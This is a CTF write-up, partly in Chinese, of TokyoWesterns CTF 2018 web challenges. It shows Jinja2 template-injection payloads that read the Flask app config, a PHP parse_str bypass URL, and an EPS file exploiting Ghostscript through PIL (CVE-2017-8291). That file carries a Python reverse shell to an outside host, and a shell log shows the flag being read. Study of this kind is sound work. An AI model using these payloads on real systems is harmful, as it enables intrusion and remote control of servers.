





东京CTF wp2018¶
shrine¶
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 | import flask import os app = flask.Flask(__name__) app.config['FLAG'] = os.environ.pop('FLAG') @app.route('/') def index(): return open(__file__).read() @app.route('/shrine/<path:shrine>') def shrine(shrine): def safe_jinja(s): s = s.replace('(', '').replace(')', '') blacklist = ['config', 'self'] return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist])+s return flask.render_template_string(safe_jinja(shrine)) if __name__ == '__main__': app.run(debug=True) |
Although
configandselfare unset,requestis still available. I believed thatapp.configmay be somewhere.. To search for it, I wrote a function to traverse over child attributes ofrequestrecursively:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 | # search.py def search(obj, max_depth): visited_clss = [] visited_objs = [] def visit(obj, path='obj', depth=0): yield path, obj if depth == max_depth: return elif isinstance(obj, (int, float, bool, str, bytes)): return elif isinstance(obj, type): if obj in visited_clss: return visited_clss.append(obj) print(obj) else: if obj in visited_objs: return visited_objs.append(obj) # attributes for name in dir(obj): if name.startswith('__') and name.endswith('__'): if name not in ('__globals__', '__class__', '__self__', '__weakref__', '__objclass__', '__module__'): continue attr = getattr(obj, name) yield from visit(attr, '{}.{}'.format(path, name), depth + 1) # dict values if hasattr(obj, 'items') and callable(obj.items): try: for k, v in obj.items(): yield from visit(v, '{}[{}]'.format(path, repr(k)), depth) except: pass # items elif isinstance(obj, (set, list, tuple, frozenset)): for i, v in enumerate(obj): yield from visit(v, '{}[{}]'.format(path, repr(i)), depth) yield from visit(obj) |
同时修改app.py
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 | import flask import os from flask import request from search import search app = flask.Flask(__name__) app.config['FLAG'] = 'TWCTF_FLAG' @app.route('/') def index(): return open(__file__).read() @app.route('/shrine/<path:shrine>') def shrine(shrine): for path, obj in search(request, 10): if str(obj) == app.config['FLAG']: return path if __name__ == '__main__': app.run(debug=True) |
(tql这个写的)
1 2 3 4 5 6 7 | $ python3 app.py & $ curl 0:5000/shrine/123 obj.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG'] $ curl -g "http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}" TWCTF{pray_f0r_sacred_jinja2} |
另一种解法¶
http://shrine.chal.ctf.westerns.tokyo/shrine/{{url_for.__globals__}}
然后搜索：


After (CTRL+F)ed “Flask” word i just found an interesting variable called:current_app

访问：
http://shrine.chal.ctf.westerns.tokyo/shrine/>{{url_for.globals.current_app}}


It means that we are in the application app.py again, so let’s try to get in config now!
1 | http://shrine.chal.ctf.westerns.tokyo/shrine/{{url_for.__globals__.current_app.config}}
|

成功！
SimpleAuth¶
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 | <?php require_once 'flag.php'; if (!empty($_SERVER['QUERY_STRING'])) { $query = $_SERVER['QUERY_STRING']; $res = parse_str($query); if (!empty($res['action'])){ $action = $res['action']; } } if ($action === 'auth') { if (!empty($res['user'])) { $user = $res['user']; } if (!empty($res['pass'])) { $pass = $res['pass']; } if (!empty($user) && !empty($pass)) { $hashed_password = hash('md5', $user.$pass); } if (!empty($hashed_password) && $hashed_password === 'c019f6e5cd8aa0bbbcc6e994a54c757e') { echo $flag; } else { echo 'fail :('; } } else { highlight_file(__FILE__); } ?> |
构造URL
1 | http://simpleauth.chal.ctf.westerns.tokyo/?action=auth&hashed_password=c019f6e5cd8aa0bbbcc6e994a54c757e |
slack emoji converter¶
得到源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 | from flask import ( Flask, render_template, request, redirect, url_for, make_response, ) from PIL import Image import tempfile import os app = Flask(__name__) @app.route('/') def index(): return render_template('index.html') @app.route('/source') def source(): return open(__file__).read() @app.route('/conv', methods=['POST']) def conv(): f = request.files.get('image', None) if not f: return redirect(url_for('index')) ext = f.filename.split('.')[-1] fname = tempfile.mktemp("emoji") fname = "{}.{}".format(fname, ext) f.save(fname) img = Image.open(fname) w, h = img.size r = 128/max(w, h) newimg = img.resize((int(w*r), int(h*r))) newimg.save(fname) response = make_response() response.data = open(fname, "rb").read() response.headers['Content-Disposition'] = 'attachment; filename=emoji_{}'.format(f.filename) os.unlink(fname) return response if __name__ == '__main__': app.run(host="0.0.0.0", port=8080, debug=True) |
it uses the PIL library which has been known to have RCEs by maliciously crafting image (CVE-2017-8291).
I’ve been searching on google and found this interesting issue request that was written in seclists.org last month.
1 2 3 4 5 6 7 8 9 10 | %!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: 0 0 30 30
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("harold.kim",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
|
The result? well…
1 2 3 4 5 6 7 8 9 | root@imouto-router:/# nc -vlp 8080
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 45.123.200.35.bc.googleusercontent.com 53674 received!
/bin/sh: 0: can't access tty; job control turned off
$ cat /flag
TWCTF{watch_0ut_gh0stscr1pt_everywhere}$ id
uid=1000(emoji) gid=1000(emoji) groups=1000(emoji)
$ exit
root@imouto-router:/#
|
(不理解)
pysandbox1¶
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 | import sys import ast blacklist = [ast.Call, ast.Attribute] def check(node): if isinstance(node, list): return all([check(n) for n in node]) else: """ expr = BoolOp(boolop op, expr* values) | BinOp(expr left, operator op, expr right) | UnaryOp(unaryop op, expr operand) | Lambda(arguments args, expr body) | IfExp(expr test, expr body, expr orelse) | Dict(expr* keys, expr* values) | Set(expr* elts) | ListComp(expr elt, comprehension* generators) | SetComp(expr elt, comprehension* generators) | DictComp(expr key, expr value, comprehension* generators) | GeneratorExp(expr elt, comprehension* generators) -- the grammar constrains where yield expressions can occur | Yield(expr? value) -- need sequences for compare to distinguish between -- x < 4 < 3 and (x < 4) < 3 | Compare(expr left, cmpop* ops, expr* comparators) | Call(expr func, expr* args, keyword* keywords, expr? starargs, expr? kwargs) | Repr(expr value) | Num(object n) -- a number as a PyObject. | Str(string s) -- need to specify raw, unicode, etc? -- other literals? bools? -- the following expression can appear in assignment context | Attribute(expr value, identifier attr, expr_context ctx) | Subscript(expr value, slice slice, expr_context ctx) | Name(identifier id, expr_context ctx) | List(expr* elts, expr_context ctx) | Tuple(expr* elts, expr_context ctx) -- col_offset is the byte offset in the utf8 string the parser uses attributes (int lineno, int col_offset) """ attributes = { 'BoolOp': ['values'], 'BinOp': ['left', 'right'], 'UnaryOp': ['operand'], 'Lambda': ['body'], 'IfExp': ['test', 'body', 'orelse'], 'Dict': ['keys', 'values'], 'Set': ['elts'], 'ListComp': ['elt'], 'SetComp': ['elt'], 'DictComp': ['key', 'value'], 'GeneratorExp': ['elt'], 'Yield': ['value'], 'Compare': ['left', 'comparators'], 'Call': False, # call is not permitted 'Repr': ['value'], 'Num': True, 'Str': True, 'Attribute': False, # attribute is also not permitted 'Subscript': ['value'], 'Name': True, 'List': ['elts'], 'Tuple': ['elts'], 'Expr': ['value'], # root node } for k, v in attributes.items(): if hasattr(ast, k) and isinstance(node, getattr(ast, k)): if isinstance(v, bool): return v return all([check(getattr(node, attr)) for attr in v]) if __name__ == '__main__': expr = sys.stdin.read() body = ast.parse(expr).body if check(body): sys.stdout.write(repr(eval(expr))) else: sys.stdout.write("Invalid input") sys.stdout.flush() |